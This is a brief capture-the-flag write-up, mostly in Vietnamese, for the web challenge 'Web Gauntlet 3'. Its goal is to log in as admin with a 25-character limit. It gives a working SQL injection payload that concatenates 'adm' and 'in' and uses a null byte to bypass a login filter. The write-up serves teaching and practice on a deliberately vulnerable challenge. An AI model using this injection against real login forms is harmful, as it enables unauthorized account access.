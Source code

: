 Web Gauntlet 3
===
**Category:** Web

**Author:** MADSTACKS
### Description
Last time, I promise! Only 25 characters this time. Log in as admin

### Overview
- Ở chall này thì form và tất cả đều giống như chall v2 chỉ khác là tổng length của username và pass không được > 25

### Solution
- Do ở bài v2 mình sử dụng payload ngắn hơn 25 rồi nên ở bài này mình sử dụng lại payload của bài v2 để giải quyết bài này luôn

##### Payload
- `user=adm'||'in'%00&pass=a`
